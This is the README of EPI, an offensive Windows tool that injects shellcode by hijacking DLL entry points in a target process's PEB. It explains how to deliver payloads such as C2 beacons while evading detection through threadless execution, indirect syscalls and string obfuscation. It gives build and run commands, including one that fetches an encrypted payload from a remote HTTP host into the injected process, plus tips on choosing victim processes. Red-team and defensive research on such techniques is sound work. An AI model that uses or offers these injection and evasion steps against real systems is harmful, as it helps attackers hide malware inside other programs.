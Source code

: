 # EPI

EPI (Entry Point Injection) is a tool that leverages a new threadless process injection technique that relies on hijacking loaded dll's [entry points](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain). To achieve this goal, EPI patches the target process' PEB such that one of the already loaded dll's entry point is redirected to a injected shellcode (which by default is the Loader previously converted to sRDI). Once a new thread is naturally spawned by the process or whenever a running thread exits, all loaded modules' entry points will be called which includes our injected shellcode. 

Since we want the target process to continue its execution smoothly, generally speaking it is a bad idea to run our payload directly on the thread that is calling the hijacked entry point. For example, the direct execution of a C2 becon would completely hijack the thread which would surely lead to the program crash in case that the application is expecting the thread to perform a certain task. To deal with this situation, EPI by default does not directly inject the desired payload but a custom Loader, which is a regular dll converted to [sRDI](https://github.com/monoxgas/sRDI). The Loader has embedded the encrypted final payload (for example, the previously commented C2 beacon), and its main task is to decrypt, allocate and run this payload in a stable way. To achieve the execution keeping the "threadless" nature of the technique, the Loader will use the process' thread pool to run the payload by calling [RtlQueueWorkItem](https://learn.microsoft.com/es-es/windows/win32/api/threadpoollegacyapiset/nf-threadpoollegacyapiset-queueuserworkitem). The use of RtlQueueWorkItem ensures that, even in the case that a new thread is spawned (it depends on the thread pool availability), the start routine's address will never point to our payload avoiding that particular IOC.

Before exiting, the Loader restores the PEB and other modified structures to their previous state, preventing the multiple execution of our payload and allowing the process to continue its normal execution.

By default, this tool hijacks `kernelbase.dll` entry point. Feel free to target a different dll, but make sure that the dll is loaded in both processes involved in this activity.

The provided shellcode embedded in the Loader spawns a new `cmd.exe /k msg "hello from kudaes"` process.

The advantages of this technique are the following:
* Both threadless or threaded execution, at will.
* No hooking (i.e. no RX memory regions are patched with JMP or CALL instructions).
* No generation of private memory regions on well known dll's RX memory pages.
* No RWX memory permissions required.
* The targeted process can continue its regular execution.
* No new threads with a start address pointing to our shellcode.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	C:\Users\User\Desktop\EPI> set LITCRYPT_ENCRYPT_KEY="setarandomkeyeachtime"

Then, depending on how you want to use the tool we have three different compilation processes.

## Use the tool as it is provided

In this case, you just need to compile the EPI project:
	
	C:\Users\User\Desktop\EPI\EPI> cargo build --release

After that, run the tool:
	
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -h 

## No Loader - Custom payload

If you just want to directly execute your custom shellcode without using the Loader (which is **highly unrecommended**), just run `builder.py` with the flag `-p` indicating the full path of your payload file. Then, just run `epi.exe`:

	C:\Users\User\Desktop\EPI> python3 builder.py -p c:\path\to\payload.bin
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -h 

Be aware that, depending on the behaviour of your shellcode, you might end up hijacking the thread and potentially causing a process crash. Also, take into account that no cleanup will be performed when injecting this way, leading to all kind of unexpected process behaviours.

## Loader & Custom payload

This is my recommended choice, since it allows you to fully customize the execution in the most reliable way. This is the right option if you want to run a different payload than the one provided and use the functionality of the Loader to avoid the crash of the target process. Also, the Loader is responsible for performing the cleanup and restoring the modified structures to their previous state.

To build the tool, run `builder.py` with the `-l` flag to indicate the use of the Loader. In case you want to enable the use of indirect syscalls in the Loader, you can do so by passing the `-i` flag.

	C:\Users\User\Desktop\EPI> python3 builder.py -l -p c:\path\to\payload.bin [-i]

This execution will embed your payload in the Loader, compile the Loader, convert it into sRDI and embed the final PIC code in the injector. Once the builder ends its execution, the injector is ready to be used:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> [flags]

Again, if you don't want to embed the final PIC code in the resulting binary, you can encrypt it (simple xor encryption) passing the `-d` flag to the builder and then download it directly into the injector's process memory using HTTP:

	C:\Users\User\Desktop\EPI> python3 builder.py -l -p c:\path\to\payload.bin -d [-i]

The resulting encrypted payload will be written to the `payload` directory. The encryption key will be the same value used for the `LITCRYPT_ENCRYPT_KEY` environment variable. This value has to be passed to `epi.exe` to be able to decrypt the payload in runtime:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> -u http://remoteip/payload.bin -k setarandomkeyeachtime [flags]

# Usage 

The basic usage is by passing to the tool the PID of the target process and waiting for a thread to spawn/exit:

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337

In case that you need to enable the `DEBUG` privilege to perform the injection, you can use the flag `-d`. Also, the use of indirect syscalls in the injector can be enabled using the `-i` flag.

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -d -i 

If you do not want to wait until a new thread is naturally spawned, you can use the flag `-f` to spawn a new dummy thread. This dummy thread will run [ExitThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitthread) (i.e. it's a self destructing thread), but before that it will call every single loaded module's entry point, including our shellcode. The good part of this is that despite making the technique threaded, the new spawned thread's initial routine will point to ExitThread and not to our injected shellcode.

	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -f

Finally, you can also force the execution of the injected shellcode by sending a [WM_QUIT](https://learn.microsoft.com/en-us/windows/win32/winmsg/wm-quit) message to ALL threads of the target process. If there is any thread listening for this kind of messages it will exit itself by calling ExitThread, which internally calls every loaded module's entry point to allow them to uninitialize and free resources. In this scenario, our shellcode will be executed as well. **BE AWARE** that this most likely will "terminate" the process, meaning that the user won't be able to interact with it anymore although the shellcode execution will continue in the background. This method is not recommended to run any long-term payload. 

 	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p 1337 -s

In case that you built the payload so that it is downloaded directly into memory, the `-u` (remote HTTP site serving the payload) and `-k` (decryption key) flags must be passed to the injector.
	
	C:\Users\User\Desktop\EPI\EPI\target\release> epi.exe -p <PID> -u http://remoteip/payload.bin -k setarandomkeyeachtime [flags]

# Tips

 If you want to exploit the threadless nature of this technique, you need to chose wisely the target process. The best processes are those with user interaction, since they are constantly creating and destroying threads.

 To test EPI, I like to target my favourite text editor: Sublime Text. Besides the fact that I love it, it's also very simple to force it to spawn a new thread, allowing me to easily test EPI. If you want to do it as well, just follow these simple steps:

* Run Sublime Text.
* Inject on it using EPI's basic usage.
* Click on "File" -> "Open File". This will create a new thread and your shellcode will be executed.
* Keep using Sublime to verify that the process continues to run normally.

![Sublime Text injection.](/images/sublime1.png "Sublime Text injection.")

In case that you want to test the execution of the shellcode when a thread exits, you can do so as well with Sublime Text this way:

* Run Sublime Text.
* Click on "File" -> "Open File".
* Inject your shellcode using EPI's basic usage.
* Click on "Cancel" to exit the previously generated thread. Your shellcode will be executed by the terminating thread.
* Keep using Sublime to verify that the process continues to run normally.

Actually, you could also just wait for a minute or less since most of this kind of apps are constantly creating new threads in the background even without any user interaction.

# TODO

* Clean memory artifacts.
* Allow to target other dll than kernelbase.dll.

# Credits

* [monoxgas](https://github.com/monoxgas) for the astonishing [sRDI](https://github.com/monoxgas/sRDI) project that I have leveraged to convert the Loader dll into PIC.
* [memN0ps](https://twitter.com/memN0ps) for the hard work and all the effort shown in improving [srdi-rs](https://github.com/memN0ps/srdi-rs).
